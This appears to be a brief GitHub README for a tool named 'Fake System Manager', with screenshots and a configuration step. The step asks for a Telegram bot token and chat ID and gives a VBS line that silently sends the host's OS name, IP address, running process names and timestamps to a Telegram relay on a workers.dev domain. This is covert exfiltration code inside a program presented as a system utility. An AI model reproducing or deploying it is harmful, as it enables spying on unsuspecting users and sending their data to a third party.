 # FSM
Fake System Manager

## Image

<img width="1919" height="1019" alt="image" src="https://github.com/user-attachments/assets/5d06101d-e1f9-422e-8e38-708ccefd61f3" />
<img width="497" height="1000" alt="image" src="https://github.com/user-attachments/assets/9831bab9-8dcc-4610-a269-67a418a01dbc" />

## Change

<pre>Token Bot Telegram & Chat ID</pre>
<pre>
  VBS
http.Open "GET", "https://telegram.mrsaad.workers.dev/bot{TOKEN}/sendMessage?chat_id={ID}&text=" & os.Caption & " - " & ip.IPAddress(0) & " : " & objProcess.Name & " - " & Time & " - " & Date, False
</pre>
